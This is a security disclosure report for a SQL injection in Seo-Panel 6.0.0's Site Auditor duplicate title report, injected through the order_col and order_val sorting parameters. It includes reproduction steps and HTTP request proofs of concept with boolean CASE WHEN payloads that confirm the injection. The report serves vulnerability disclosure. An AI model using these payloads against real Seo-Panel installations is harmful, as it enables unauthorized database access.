




# Seo-Panel `siteauditor.php` Duplicate Meta Report SQL Injection via Unsafe `order_col` and `order_val`

## 1. Vulnerability Description

A SQL injection issue exists in Seo-Panel's Site Auditor duplicate meta report flow and can be triggered by **normal authenticated users**.

The vulnerable functionality is exposed through the following page:

```text
/siteauditor.php?sec=showreport&report_type=page_title
```

In this flow, user-controlled sorting parameters are directly incorporated into the SQL query used to generate duplicate meta reports. Specifically, the application takes attacker-controlled `order_col` and `order_val` values and concatenates them into the `ORDER BY` clause without applying a strict whitelist. As a result, a normal authenticated user can inject SQL expressions into the backend query through these sorting parameters.

The vulnerable logic is located in the duplicate meta report handler, where the application first builds the grouped duplicate-title query and later appends:

- attacker-controlled `order_col`
- attacker-controlled `order_val`

to the final `ORDER BY` clause.

This means the duplicate title report is vulnerable to SQL injection through both sorting parameters.

- **Affected Version**: `Seo-Panel 6.0.0` confirmed
- **Attack Prerequisite**: Triggerable by normal authenticated users
- **Vulnerability Type**: SQL Injection
- **CWE ID**: CWE-89
- **Relevant Code**:
  - `controllers/siteauditor.ctrl.php:1066`
  - `controllers/siteauditor.ctrl.php:1080`
  - `controllers/siteauditor.ctrl.php:1097`

## 2. Reproduction Steps

### 2.1 Normal authenticated user

1. Log in to Seo-Panel as a normal user.

2. Ensure the account can access the Site Auditor feature and that a valid auditor project exists with duplicate page title data available.

3. Open the duplicate title report page through:

   ```text
   /siteauditor.php?sec=showreport&report_type=page_title&project_id=<valid_project_id>
   ```

   Example URL: http://localhost/siteauditor.php?sec=showreport&report_type=page_title&project_id=1

   

4. First confirm the normal sorting behavior by requesting the report with a legitimate sort parameter such as:

   ```text
   order_col=count&order_val=DESC
   ```

   Example URL: http://localhost/siteauditor.php?sec=showreport&report_type=page_title&project_id=1&order_col=count&order_val=DESC . Record the order of the returned duplicate title groups.

   

5. Then modify the `order_col` parameter to inject a simple SQL expression. During verification, the following payload was used:

   ```text
   COUNT(*)*(CASE WHEN(1=1) THEN 1 ELSE -1 END)
   ```

   URL: `http://localhost/siteauditor.php?sec=showreport&report_type=page_title&project_id=1&order_col=COUNT(*)*(CASE%20WHEN(1=1)%20THEN%201%20ELSE%20-1%20END)&order_val=DESC`

   

6. Request the same page again, but use the false condition version:

   ```text
   COUNT(*)*(CASE WHEN(1=2) THEN 1 ELSE -1 END)
   ```

   URL: `http://localhost/siteauditor.php?sec=showreport&report_type=page_title&project_id=1&order_col=COUNT(*)*(CASE%20WHEN(1=2)%20THEN%201%20ELSE%20-1%20END)&order_val=DESC`

   

7. Observe that the order of duplicate title groups changes between the two requests. For example, a group such as `ZZZ` may appear before `AAA` under one condition and after it under the other. This confirms that attacker-controlled SQL expressions in the sort field are being evaluated by the database.

8. If needed, the same methodology can be extended to `order_val` by fixing the sort column and injecting logic into the sort direction expression.

### Expected Behavior During Verification

The application should only allow a fixed set of safe sort columns and a fixed set of sort directions such as `ASC` and `DESC`.

### Actual Behavior

The application accepts attacker-controlled SQL expressions through sorting parameters and appends them into the `ORDER BY` clause of the duplicate title report query.

## 3. PoC

### PoC 1: Injection through `order_col` with a true condition

```http
GET /siteauditor.php?sec=showreport&report_type=page_title&project_id=1&order_col=COUNT(*)*(CASE%20WHEN(1=1)%20THEN%201%20ELSE%20-1%20END)&order_val=DESC HTTP/1.1
Host: localhost
Cookie: PHPSESSID=<valid_normal_user_session>
Connection: close
```

### PoC 2: Injection through `order_col` with a false condition

```http
GET /siteauditor.php?sec=showreport&report_type=page_title&project_id=1&order_col=COUNT(*)*(CASE%20WHEN(1=2)%20THEN%201%20ELSE%20-1%20END)&order_val=DESC HTTP/1.1
Host: localhost
Cookie: PHPSESSID=<valid_normal_user_session>
Connection: close
```

### Expected Response Behavior

The order of duplicate title groups changes depending on the injected SQL condition. For example:

- when the condition is true, a higher-count group appears first
- when the condition is false, the ordering is reversed or significantly altered

This change in report ordering confirms that attacker-controlled SQL expressions are executed by the database engine.

### Notes

- A valid normal user session is required.
- The vulnerable page is:

  ```text
  /siteauditor.php?sec=showreport&report_type=page_title
  ```

- The report type may also be adapted to related duplicate meta report categories such as `page_description` or `page_keywords` if the same sink is reachable there.
- The provided PoCs are intentionally non-destructive and are designed to demonstrate visible query behavior changes for reporting purposes.

## 4. Impact

This issue allows a normal authenticated user to inject SQL expressions into the duplicate title report query through the sorting mechanism.

Impact includes:

- SQL injection in the `ORDER BY` clause
- Backend evaluation of attacker-controlled SQL expressions
- Unauthorized manipulation of report query logic
- A reliable primitive for confirming SQL injection without destructive actions
- Potential expansion into more advanced SQL injection exploitation depending on query structure and DBMS behavior

Although the PoC shown here is non-destructive and only demonstrates a visible change in sorting behavior, it confirms that attacker-controlled SQL expressions are executed by the backend database. Therefore, this is a real SQL injection vulnerability rather than a harmless report sorting bug.
